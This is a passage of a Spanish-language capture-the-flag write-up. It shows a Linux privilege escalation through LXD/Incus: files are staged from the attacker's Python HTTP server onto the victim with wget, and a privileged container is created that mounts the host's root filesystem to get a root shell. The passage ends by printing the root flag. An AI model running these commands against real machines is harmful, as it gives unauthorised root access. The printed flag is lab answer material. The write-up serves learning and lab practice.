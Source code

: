 Ahora una vez hecho todo lo anterior nos pasaremos 2 archivos a la maquina victima mediante un servidor de `python3`...

```shell
python3 -m http.server 80
```

Y en nuestra maquina victima nos lo descargamos poniendo la IP de nuestro `host` con el `puerto`...

```shell
wget http://<IP>:80/<FILES>
```

Los 2 archivos que nos descargaremos seran `incus.tar.xz` y `rootfs.squashfs`, pero al archivo `incus.tar.xz` se lo cambiare a `lxd.tar.xz`...

```shell
mv incus.tar.xz lxd.tar.xz
```

Todo esto lo meteremos en la carpeta `/tmp` y dentro del servidor haremos los siguiente comandos...

```shell
lxc storage list
```

Para ver el alias que tiene el contenedor donde vamos a depositar la informacion por asi llamarlo...

```
+--------+-------------+--------+-----------------------------------+---------+
|  NAME  | DESCRIPTION | DRIVER |              SOURCE               | USED BY |
+--------+-------------+--------+-----------------------------------+---------+
| mypool |             | dir    | /var/lib/lxd/storage-pools/mypool | 0       |
+--------+-------------+--------+-----------------------------------+---------+
```

```shell
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true -s mypool

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

```shell
lxc start privesc

#Para ser root
lxc exec privesc /bin/sh

cd /mnt/root

cd root/
```

Una vez siendo `root` leemos su flag...

> root.txt (flag2)

```
f0b98d4387ff6da77317e582da98bf31
```
